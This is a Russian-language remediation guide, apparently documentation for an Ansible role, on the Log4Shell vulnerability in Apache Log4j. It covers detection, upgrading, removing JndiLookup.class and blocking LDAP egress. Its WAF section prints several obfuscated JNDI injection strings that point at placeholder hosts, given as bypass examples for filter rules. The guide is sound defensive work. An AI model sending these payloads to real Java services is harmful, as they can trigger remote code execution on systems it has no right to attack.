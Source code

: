 # Общее описание

Уязвимость в утилите журналирования Log4j от Apache Software Foundation [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

Уязвимость удаленного выполнения кода под названием Log4Shell получила максимальную оценку в 10 баллов по шкале CVSSv3, поскольку ее можно эксплуатировать удаленно, и особых технических навыков для этого не требуется. Критическая опасность связана с повсеместным присутствием утилиты Log4j почти во всех основных корпоративных приложениях и серверах на базе Java. Проблема затрагивает версии log4j между 2.0-beta-9 и 2.14.1. Уязвимость отсутствует в версии log4j 1 и исправлена в версии 2.15.0[^1]. В версии 2.15.0 по умолчанию был отключен лишь один аспект функционала JNDI по поиску сообщений. Теперь же вышло второе исправление 2.16.0, по умолчанию отключающее всю поддержку JNDI и полностью удаляющее обработку поиска сообщений, но и в нем найдена уязвимость.

Выпуск второго обновления был необходим, поскольку версию 2.15.0 по-прежнему можно проэксплуатировать при определенных незаводских конфигурациях. Данная проблема получила собственный идентификатор [CVE-2021-45046](https://nvd.nist.gov/vuln/detail/CVE-2021-45046). В связи с этим в версии 2.16.0 JNDI выключен. JNDI представляет собой API, используемый утилитой Log4j для извлечения объектов с удаленных серверов с целью их использования в записях журнала. В версии 2.16.0 проблема получила индекс [CVE-2021-45105](https://nvd.nist.gov/vuln/detail/CVE-2021-45105).

!!! done "Последняя актуальная версия"
    Доступна [2.17.0](https://logging.apache.org/log4j/2.x/download.html) на официальном сайте.

## Обнаружение уязвимой библиотеки

Для анализа проблемы на хосте необходимо выполнить поиск запущенных java процессов, и проверить не используют они уязвимую библиотеку.

!!! info "Для информации"
    Для поиска роль использует скрипт по Python из проекта [fox-it/log4j-finder](https://github.com/fox-it/log4j-finder). Так как в нем используется анализ не по имени файлов, а по md5 суммам версий библиотек. Что в значительной степени повышает надежность обнаружения. В том числе обнаружение идет и в runtime LXC (docker images).

## Устранение уязвимости

### Обновление версии

Очевидное и самое правильное решение обновить версию библиотеки до последнего доступного релиза. Обновление библиотеки выполняется совместно с обновлением приложения. Для этого необходимо дождаться новой версии приложения от разработчика.

!!! attention "Внимание"
    Обновление только библиотеки может привести к полной или частично неработоспособности приложения.

### Временное решение

Это комплекс мер которы снижает риски эксплуатации данной уязвимости, если отсутствует обновление или нет возможности его применить.

!!! attention "Внимание"
    Данные решения не решают проблему полностью, а только снижают риски.

* Удалить возможность Log4j выполнять поиски уязвимых запросов. Эта функция находится в JndiLookup.class, необходимо удалить данный класс из библиотеки Log4j.

!!! example "Удаление класса"
    ``` bash
    zip -q -d <path/filename>.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
    ```

!!! attention "Внимание"
    Также рекомендуется одновременно удалить другие классы, которые также могут быть использованы в этой или подобных атаках. Эти файлы включают JndiManager, JMSAppender и SMTPAppender. Имейте в виду, что удаление классов из среды выполнения может вызвать неожиданное поведение (полную или частичную неработоспособность приложения).

!!! attention "Внимание"
    Роль удаляет только JndiLookup класс из библиотеки.

!!! fail "Особое внимание"
    Не рекомендуется использовать удаление класса, так как может привести к полной или частично неработоспособности приложения.

* Добавьте правила WAF для блокировки вредоносных входящих запросов.

Правила WAF (Web Application Firewall) могут быть добавлены для фильтрации входящих запросов. Вот несколько примеров попыток атак в обход правил:

!!! example "Правила WAF"
    ``` text
    ${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}  
    ${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}  
    ${jndi:rmi://adsasd.asdasd.asdasd}  
    ${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}  
    ${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}  
    ${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}  
    ${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}  
    ${${lower:j}${lower:n}${lower:d}i:${lower:ldap}://%s}  
    ```

!!! attention "Внимание"
    Обратите внимание, что на этот подход нельзя полагаться, поскольку злоумышленники каждый час создают новые цепочки атак, которые могут обойти эти правила. Возможно, придется добавить их вручную, новые правила для отклонения запросов на остове ализа журналов WAF, которые выглядят как злонамеренные атаки на эту уязвимость.

* В дополнение к правилам WAF, настроить запрет исходящих соединений по протоколу LDAP на межсетевом экране.

!!! attention "Внимание"
    Блокировать необходимо не LDAP порт, а пакеты протокола LDAP.

## Ansible роль

Для определения используемых уязвимых библиотек и исправления написана ansible роль:

* infra-service.log4j

!!! tip "Подсказка"
    Для создания закладки в браузере на данное руководство: ++ctrl+d++


  [^1]: Устранена частично, остается возможность вызвать отказ в обслуживание (Denial of Service).
 